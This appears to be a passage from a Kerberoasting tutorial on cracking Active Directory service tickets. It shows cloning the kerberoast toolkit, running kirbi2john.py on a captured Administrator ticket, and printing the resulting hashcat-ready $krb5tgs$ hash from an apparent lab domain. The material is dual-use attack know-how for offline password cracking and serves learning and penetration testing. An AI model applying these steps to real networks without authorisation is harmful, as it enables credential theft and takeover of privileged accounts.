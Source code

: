 ### Crack Service Tickets

To crack the service ticket a number of tools can be used. In this example we'll use hashcat. First we need to convert
the ticket we retrieved in the `.kirbi` format to a format parsable by hashcat. The script **kirbi2john** is part of
[Tim Medin](https://twitter.com/TimMedin) [Kerberoast](https://github.com/nidem/kerberoast) toolkit is perfect for
this task.

First clone the repo then run the script against the `.kirbi` file.

```
msfuser@ubuntu:~/git$ git clone https://github.com/nidem/kerberoast.git
msfuser@ubuntu:~/git$ cd kerberoast
msfuser@ubuntu:~/git/kerberoast$ python3 kirbi2john.py ~/1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM.kirbi
$krb5tgs$23$*1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM*$2b5cda0496cdd9cfb11a00a9b03a0d31$76975a9115860927140
3a1808746b35d0e99159553e3c81a9cd32a51e968a4b45ce3fcf08e5eac8d4551df10c9f1bd4572cc273d1bd154fc8fd1228d55cd39a90b64ec3117f
e0a1fb496d1be4042ccb2998d998fa3de8f50bcb04d3bf78e34be07d71310a3be829e24cb75c398847f960aefe9669534df26344beb6e7bbe628b7ac
fa957c4a67417546fc441b84aaee78a0e5256cc9dead287327ac7907af71e02b142027c9061515c72ef03c842d0f73754f9dffa434a26057df4c4434
71cd5bf76260469ea6f1c367a64ea02b01a2b9c2b83979911fc58fa8822c70877b72370078e3d7955fc2ade02acd2a803889a8c3a609f80f9beb45c0
981aba6bdbb208fa6ea2cc91814c8c4dd6e9287f4ef3b9e2b7febe07648c78ec25137e82bee0d99290a33fd3701953bd858fac15c6d1652f11cc75a6
e419cab7dec019e599eda3a76652475968bc2845fa6f02477efaecfd63e58fad817f1976adeda14b2c4c1508a84df1813e05368c3e07c9f656d5730d
848b86c59bf576f4c2505375b7d6934abf8a955b1a71d802026383cbd9005bf12f0664ffc25ebee8aef4b574dd93850d59fc16c5f9881e9b4f957c33
74724e4046c0fa4bc5ff16b9a960b4b6a2ede25bb18c617c2dbcfb3fd34a4cc3ee29fb0f6e6f43722ffc50ceddce55b2be1a53361d13c983980d3191
86c7dbd124a3c8f19560e88d0d858b0f5320738931bf2f32c1e893fbbadb92f7574128f6f36a0acab99023f79d857f15f0920a1a76b3a97e6282d4e6
c5ef30206444bc20da1a7d89d1007a97e75ffb9554cfeaf6757919a635dbdfcfd74d2eec8d5f83f109beb6e653a8c0e787ec039c7bb93d07a60e8bb4
b56d026e809a80e020875a3a382b367f28c0e41714bd5ef97da578956cba12ab1fbcd84a5313d2edc5f7c601c3c56860a347ab013f50e3f8e6167935
9db05e4014db38e21a814fe002ba14d17840aa053bbec3a6aadec31db50827168d24107486d373567c2969215c0decf639bc46b9968e43a79bc6f261
2544feb09908118615035f630e37b03cb04d9725d2085a28543575d91c361bf1b6a61837d6c34c8961df33d1b8b45963bf361d33e0ca2fa37b40e62b
6389ebb0ad4097036f4d6aa4598086313ea79d68f75301d5038783567c2fdcf25e2b459acdc867c64613fe84f3faf1fdb79fc6e05322b2175eec3b2e
84e3a8165f0af265d3ccd994712704516f0c78f76dd7c5c98f8fc8b9db1231f19c259bc7f078a86d4bc6cf06b8c4158dc41f48dd51b146d3fc63d2fd
f057e6644f838a944de0679ab3e8c6290d4d8004bd53570f61323eeb7c910c6546880a508172bf4ee2fa1c87748ec0e2e2f79e03e963affb593f1391
a62fdf2f29b792b1c0e7ece2645381a4284b56ddc525c842589eca39efa0466418c9bfb60df479015f4fac86d38575aad1f29674a12d873f8fc12415
b6ea7b2cb15c9d422f0f904a6af518f12c4e0e362093d8d33a47672973f6d70e80669666f37d6674ef8e2999c92fa38b5de8e266716bb182527bde17
36bcb926a6340ae92f8b338be2fe5fa3a757894679beba5b296fe0cdc11100b9a536264cb5e3cb3c6d0426acaa7dd3928895d32973fab2698d17fff4
f9f1ecd02102f5bbd222b039ca3e30fed4003be6b70b2e492c8ea5eee92439681d6af767547609a87d47b68ba7ca62dbe3e4bf74e081915ab15e4103
8839b74263ddbd087c90b6262dd5684e078068c28ccc0c115e3
tickets written: 1
```

